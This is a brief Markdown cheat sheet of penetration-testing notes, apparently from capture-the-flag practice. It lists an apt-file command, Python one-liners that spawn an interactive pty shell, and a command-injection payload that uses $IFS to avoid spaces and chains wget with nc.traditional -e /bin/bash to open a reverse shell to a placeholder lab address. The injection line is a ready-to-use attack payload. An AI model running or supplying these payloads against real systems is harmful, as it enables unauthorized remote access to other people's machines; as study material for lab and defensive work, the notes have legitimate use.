 #linux
# Locations of files of an linux install
`apt-file list <packet>`

# Interactive Python pty
 #pty #shell
 
`python3 -c 'import pty; pty.spawn("/bin/sh")'`
`python3 -c 'import pty; pty.spawn("/bin/bash")'`
`python -c 'import pty; pty.spawn("/bin/sh")'`

# Command injection space
#whitespace #commandinjection #ifs
Use `$IFS`.
Together with Netcat:
`wget http://10.10.14.XXX:8000/$(nc.traditional$IFS-e/bin/bash$IFS'10.10.14.XXX'$IFS'6666')`